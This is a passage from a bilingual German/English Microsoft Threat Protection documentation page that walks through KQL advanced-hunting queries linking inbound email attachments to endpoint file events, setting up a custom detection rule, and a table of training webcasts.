5.  <span data-ttu-id="05c82-341">Geben Sie als nächstes die Informationen über die Anlage (beispielsweise: Dateiname, Hashwerte) zu Ihrem Resultset hinzu.</span><span class="sxs-lookup"><span data-stu-id="05c82-341">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="05c82-342">Um dies zu tun, fügen Sie die **EmailAttachmentInfo** -Tabelle.</span><span class="sxs-lookup"><span data-stu-id="05c82-342">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="05c82-343">Die für den Beitritt zu verwendenden allgemeinen Felder sind in diesem Fall **NetworkMessageId** und **RecipientObjectId**.</span><span class="sxs-lookup"><span data-stu-id="05c82-343">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

<span data-ttu-id="05c82-344">Die folgende Abfrage enthält auch eine zusätzliche Verbindung "| **Project-Rename EmailTimestamp = Timestamp**", mit dem ermittelt werden kann, welcher Zeitstempel im Zusammenhang mit den im nächsten Schritt hinzugefügten e-Mail-und Timestamps im Zusammenhang mit Dateiaktionen steht.</span><span class="sxs-lookup"><span data-stu-id="05c82-344">The following query also includes an additional line “| **project-rename EmailTimestamp=Timestamp**” that will help identify which timestamp was related to the email versus timestamps related to file actions which you will add in the next step.</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  <span data-ttu-id="05c82-345">Verwenden Sie als nächstes den **SHA256** -Wert aus der **EmailAttachmentInfo** -Tabelle, um **DeviceFileEvents** (Dateiaktionen, die auf dem Endpunkt passiert sind) für diesen Hash zu suchen.</span><span class="sxs-lookup"><span data-stu-id="05c82-345">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span>  <span data-ttu-id="05c82-346">Das allgemeine Feld hier ist der SHA256-Hash für die Anlage.</span><span class="sxs-lookup"><span data-stu-id="05c82-346">The common field here will be the SHA256 hash for the attachment.</span></span>

<span data-ttu-id="05c82-347">Die resultierende Tabelle enthält nun Details vom Endpunkt (Microsoft Defender ATP) wie Gerätename, welche Aktion (in diesem Fall gefiltert, sodass nur filecreated-Ereignisse enthalten sind) und wo die Datei gespeichert wurde.</span><span class="sxs-lookup"><span data-stu-id="05c82-347">The resulting table now includes details from the endpoint (Microsoft Defender ATP) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="05c82-348">Der dem Prozess zugeordnete Kontoname wird ebenfalls einbezogen.</span><span class="sxs-lookup"><span data-stu-id="05c82-348">The account name associated with the process will also be included.</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

<span data-ttu-id="05c82-349">Sie haben jetzt eine Abfrage erstellt, mit der alle eingehenden e-Mails identifiziert werden, bei denen der Benutzer die Anlage geöffnet oder gespeichert hat.</span><span class="sxs-lookup"><span data-stu-id="05c82-349">You have now created a query that will identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="05c82-350">Sie können diese Abfrage auch verfeinern, um nach bestimmten Sender Domänen, Dateigrößen, Dateitypen usw. zu filtern.</span><span class="sxs-lookup"><span data-stu-id="05c82-350">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7.  <span data-ttu-id="05c82-351">Funktionen sind eine besondere Art von Join, mit der Sie mehr TI-Daten zu einer Datei abrufen können, beispielsweise die Prävalenz, die Signaturgeber-und Ausstellerinformationen usw.  Um weitere Details zu der Datei zu erhalten, verwenden Sie die **fileprofile ()** -Funktion Bereicherung:</span><span class="sxs-lookup"><span data-stu-id="05c82-351">Functions are a special sort of join which let you pull more TI data about a file like its prevalence, signer and issuer info, etc.  To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


<span data-ttu-id="05c82-352">**Erstellen einer Erkennung**</span><span class="sxs-lookup"><span data-stu-id="05c82-352">**Create a detection**</span></span>

<span data-ttu-id="05c82-353">Nachdem Sie eine Abfrage erstellt haben, in der Informationen identifiziert werden, über die Sie in Zukunft **benachrichtigt** werden möchten, können Sie eine benutzerdefinierte Erkennung aus der Abfrage erstellen.</span><span class="sxs-lookup"><span data-stu-id="05c82-353">Once you have created a query that identifies information that you would like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span> 

<span data-ttu-id="05c82-354">Bei benutzerdefinierten Erkennungen wird die Abfrage entsprechend der von Ihnen festgelegten Häufigkeit ausgeführt, und durch die Ergebnisse der Abfragen werden Sicherheitswarnungen basierend auf den betroffenen Objekten erstellt, die Sie auswählen.</span><span class="sxs-lookup"><span data-stu-id="05c82-354">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="05c82-355">Diese Warnungen werden mit Vorfällen korreliert und können als jede andere Sicherheitswarnung, die von einem der Produkte generiert wurde, unter altert werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-355">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1.  <span data-ttu-id="05c82-356">Entfernen Sie auf der Seite Abfrage die Zeilen 7 und 8, die in Schritt 7 der Anleitung go Hunting hinzugefügt wurden, und klicken Sie auf **Erkennungsregel erstellen**.</span><span class="sxs-lookup"><span data-stu-id="05c82-356">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span> 
    
     

>[!NOTE]
><span data-ttu-id="05c82-358">Wenn Sie auf **Erkennungsregel erstellen** klicken und in ihrer Abfragesyntax Fehler vorliegen, wird die Erkennungsregel nicht gespeichert.</span><span class="sxs-lookup"><span data-stu-id="05c82-358">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won’t be saved.</span></span> <span data-ttu-id="05c82-359">Überprüfen Sie Ihre Abfrage doppelt, um sicherzustellen, dass keine Fehler vorliegen.</span><span class="sxs-lookup"><span data-stu-id="05c82-359">Double-check your query to ensure there’s no errors.</span></span> 


2.  <span data-ttu-id="05c82-360">Füllen Sie die erforderlichen Felder mit den Informationen aus, mit denen das Sicherheitsteam die Warnung verstehen kann, warum es generiert wurde und welche Aktionen von Ihnen erwartet werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-360">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span> 

    

<span data-ttu-id="05c82-362">Stellen Sie sicher, dass Sie die Felder mit Klarheit ausfüllen, um dem nächsten Benutzer eine fundierte Entscheidung über diese Warnungsregel Warnung zu geben.</span><span class="sxs-lookup"><span data-stu-id="05c82-362">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span> 

3.  <span data-ttu-id="05c82-363">Wählen Sie aus, welche Entitäten in dieser Warnung betroffen sind.</span><span class="sxs-lookup"><span data-stu-id="05c82-363">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="05c82-364">Wählen Sie in diesem Fall **Gerät** und **Postfach**aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-364">In this case, select **Device** and **Mailbox**.</span></span>

    
 

4.  <span data-ttu-id="05c82-366">Bestimmen Sie, welche Aktionen durchgeführt werden sollen, wenn die Warnung ausgelöst wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-366">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="05c82-367">Führen Sie in diesem Fall eine Antivirus-Überprüfung durch, obwohl andere Aktionen durchgeführt werden könnten.</span><span class="sxs-lookup"><span data-stu-id="05c82-367">In this case, run an antivirus scan, though other actions could be taken.</span></span> 

     

5.  <span data-ttu-id="05c82-369">Wählen Sie den Bereich für die Warnungsregel aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-369">Select the scope for the alert rule.</span></span> <span data-ttu-id="05c82-370">Da diese Abfrage Geräte beinhalten, sind die Gerätegruppen in dieser benutzerdefinierten Erkennung entsprechend dem Microsoft Defender ATP-Kontext relevant.</span><span class="sxs-lookup"><span data-stu-id="05c82-370">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender ATP context.</span></span>  <span data-ttu-id="05c82-371">Beim Erstellen einer benutzerdefinierten Erkennung, die keine Geräte als betroffene Entitäten enthält, gilt der Bereich nicht.</span><span class="sxs-lookup"><span data-stu-id="05c82-371">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>  

     

<span data-ttu-id="05c82-373">Für dieses Pilotprojekt können Sie diese Regel auf eine Teilmenge der Testgeräte in Ihrer Produktionsumgebung beschränken.</span><span class="sxs-lookup"><span data-stu-id="05c82-373">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6.  <span data-ttu-id="05c82-374">Wählen Sie **Erstellen** aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-374">Select **Create**.</span></span> <span data-ttu-id="05c82-375">Wählen Sie dann im Navigationsbereich **benutzerdefinierte Erkennungsregeln** aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-375">Then, select **Custom detection rules** from the navigation panel.</span></span>
 
     

     

<span data-ttu-id="05c82-378">Auf dieser Seite können Sie die Erkennungsregel auswählen, mit der eine Detailseite geöffnet wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-378">From this page, you can select the detection rule which will open a details page.</span></span> 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="05c82-380">Zusätzliche erweiterte Jagd-Übungsschritte</span><span class="sxs-lookup"><span data-stu-id="05c82-380">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="05c82-381">Wenn Sie mehr über Advanced Hunting erfahren möchten, werden die folgenden Webcasts Sie durch die Funktionen der erweiterten Suche in Microsoft Threat Protection (MTP) führen, um Cross-Pillar-Abfragen zu erstellen, auf Entitäten zu pivotieren und benutzerdefinierte Erkennungen und Korrekturaktionen zu erstellen.</span><span class="sxs-lookup"><span data-stu-id="05c82-381">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft Threat Protection (MTP) to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

>[!NOTE]
><span data-ttu-id="05c82-382">Lassen Sie sich mit Ihrem eigenen GitHub-Konto vorbereiten, um die Jagd Abfragen in ihrer Pilot Test Lab-Umgebung auszuführen.</span><span class="sxs-lookup"><span data-stu-id="05c82-382">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>  

| <span data-ttu-id="05c82-383">**Titel**</span><span class="sxs-lookup"><span data-stu-id="05c82-383">**Title**</span></span> | <span data-ttu-id="05c82-384">**Beschreibung**</span><span class="sxs-lookup"><span data-stu-id="05c82-384">**Description**</span></span> | <span data-ttu-id="05c82-385">**MP4 herunterladen**</span><span class="sxs-lookup"><span data-stu-id="05c82-385">**Download MP4**</span></span> | <span data-ttu-id="05c82-386">**In YouTube ansehen**</span><span class="sxs-lookup"><span data-stu-id="05c82-386">**Watch on YouTube**</span></span> | <span data-ttu-id="05c82-387">**Zu verwendende CSL-Datei**</span><span class="sxs-lookup"><span data-stu-id="05c82-387">**CSL file to use**</span></span> |
|:-----|:-----|:-----|:-----|:-----|
| <span data-ttu-id="05c82-388">Episode 1: KQL-Grundlagen</span><span class="sxs-lookup"><span data-stu-id="05c82-388">Episode 1: KQL fundamentals</span></span> | <span data-ttu-id="05c82-389">Wir behandeln die Grundlagen der erweiterten Jagd Funktionen in Microsoft Threat Protection.</span><span class="sxs-lookup"><span data-stu-id="05c82-389">We’ll cover the basics of advanced hunting capabilities in Microsoft Threat Protection.</span></span> <span data-ttu-id="05c82-390">Erfahren Sie mehr über verfügbare erweiterte Jagd Daten und grundlegende KQL-Syntax und Operatoren.</span><span class="sxs-lookup"><span data-stu-id="05c82-390">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span> | [<span data-ttu-id="05c82-391"> MP4</span><span class="sxs-lookup"><span data-stu-id="05c82-391"> MP4</span></span>](https://aka.ms/MTP15JUL20_MP4) | [<span data-ttu-id="05c82-392">YouTube</span><span class="sxs-lookup"><span data-stu-id="05c82-392">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM) | [<span data-ttu-id="05c82-393">Episode 1: CSL-Datei in git</span><span class="sxs-lookup"><span data-stu-id="05c82-393">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| <span data-ttu-id="05c82-394">Episode 2: Joins</span><span class="sxs-lookup"><span data-stu-id="05c82-394">Episode 2: Joins</span></span> | <span data-ttu-id="05c82-395">Wir werden weiterhin über Daten in der erweiterten Suche und darüber, wie Sie Tabellen miteinander verknüpfen, vertraut gemacht.</span><span class="sxs-lookup"><span data-stu-id="05c82-395">We’ll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="05c82-396">Erfahren Sie mehr über inner-, Outer-, Unique-und semi-Joins und die Nuancen der standardmäßigen Kusto innerunique Join.</span><span class="sxs-lookup"><span data-stu-id="05c82-396">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span> | [<span data-ttu-id="05c82-397">MP4</span><span class="sxs-lookup"><span data-stu-id="05c82-397">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4) | [<span data-ttu-id="05c82-398">YouTube</span><span class="sxs-lookup"><span data-stu-id="05c82-398">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU) | [<span data-ttu-id="05c82-399">Episode 2: CSL-Datei in git</span><span class="sxs-lookup"><span data-stu-id="05c82-399">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| <span data-ttu-id="05c82-400">Episode 3: zusammenfassen, pivotieren und Visualisieren von Daten</span><span class="sxs-lookup"><span data-stu-id="05c82-400">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="05c82-401">Da wir nun Daten filtern, manipulieren und an diesen teilnehmen können, ist es an der Zeit, mit der Zusammenfassung, Quantifizierung, Pivotierung und Visualisierung zu beginnen.</span><span class="sxs-lookup"><span data-stu-id="05c82-401">Now that we’re able to filter, manipulate, and join data, it’s time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="05c82-402">In dieser Episode befassen wir uns mit dem Zusammenfassungs Operator und einigen Berechnungen, die Sie ausführen können, wenn Sie in zusätzliche Tabellen im Advanced Hunting-Schema eintauchen.</span><span class="sxs-lookup"><span data-stu-id="05c82-402">In this episode, we’ll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="05c82-403">Wir verwandeln unsere Datasets in Diagramme, die zur Verbesserung der Analyse beitragen können.</span><span class="sxs-lookup"><span data-stu-id="05c82-403">We turn our datasets into charts that can help improve analysis.</span></span> | [<span data-ttu-id="05c82-404">MP4</span><span class="sxs-lookup"><span data-stu-id="05c82-404">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4) | [<span data-ttu-id="05c82-405">YouTube</span><span class="sxs-lookup"><span data-stu-id="05c82-405">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y) | [<span data-ttu-id="05c82-406">Episode 3: CSL-Datei in git</span><span class="sxs-lookup"><span data-stu-id="05c82-406">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| <span data-ttu-id="05c82-407">Episode 4: Let es Hunt!</span><span class="sxs-lookup"><span data-stu-id="05c82-407">Episode 4: Let’s hunt!</span></span> <span data-ttu-id="05c82-408">Anwenden von KQL auf die Vorfall Verfolgung</span><span class="sxs-lookup"><span data-stu-id="05c82-408">Applying KQL to incident tracking</span></span>|<span data-ttu-id="05c82-409">Zeit, um einige Angreifer Aktivitäten zu verfolgen!</span><span class="sxs-lookup"><span data-stu-id="05c82-409">Time to track some attacker activity!</span></span> <span data-ttu-id="05c82-410">In dieser Episode verwenden wir unser verbessertes Verständnis von KQL und erweiterter Suche in Microsoft Threat Protection, um einen Angriff nachzuverfolgen.</span><span class="sxs-lookup"><span data-stu-id="05c82-410">In this episode, we’ll use our improved understanding of KQL and advanced hunting in Microsoft Threat Protection to track an attack.</span></span> <span data-ttu-id="05c82-411">Erfahren Sie mehr über die Tipps und Tricks, die in dem Feld verwendet werden, um Angreifer Aktivitäten nachzuverfolgen, darunter das ABC von Cyber und wie diese auf die Vorfall Antwort angewendet werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-411">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span> | [<span data-ttu-id="05c82-412">MP4</span><span class="sxs-lookup"><span data-stu-id="05c82-412">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4) | [<span data-ttu-id="05c82-413">YouTube</span><span class="sxs-lookup"><span data-stu-id="05c82-413">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8) | [<span data-ttu-id="05c82-414">Episode 4: CSL-Datei in git</span><span class="sxs-lookup"><span data-stu-id="05c82-414">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a><span data-ttu-id="05c82-415">Nächster Schritt</span><span class="sxs-lookup"><span data-stu-id="05c82-415">Next step</span></span>
|<span data-ttu-id="05c82-416"></span><span class="sxs-lookup"><span data-stu-id="05c82-416"></span></span> <br>[<span data-ttu-id="05c82-417">Abschluss-und Zusammenfassungs Phase</span><span class="sxs-lookup"><span data-stu-id="05c82-417">Closing and summary phase</span></span>](mtp-pilot-close.md) | <span data-ttu-id="05c82-418">Analysieren Sie Ihr Microsoft Threat Protection-Pilot Ergebnis, stellen Sie Sie Ihren Beteiligten zur Verfügung, und führen Sie den nächsten Schritt aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-418">Analyze your Microsoft Threat Protection pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|

